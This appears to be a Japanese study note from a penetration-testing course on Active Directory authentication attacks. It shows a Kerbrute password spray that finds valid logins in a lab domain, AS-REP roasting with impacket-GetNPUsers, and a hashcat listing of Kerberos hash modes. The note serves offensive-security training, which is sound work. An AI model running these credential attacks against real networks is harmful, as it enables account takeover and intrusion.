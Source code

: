 (Github, 2020), https://github.com/ropnop/kerbrute [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref6)

```
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

### ASREProast

ケルベロス認証のAS(Authentication Service)REQに含まれるクレデンシャルをクラックする

* Linuxで実行

```bash
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

```bash
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```
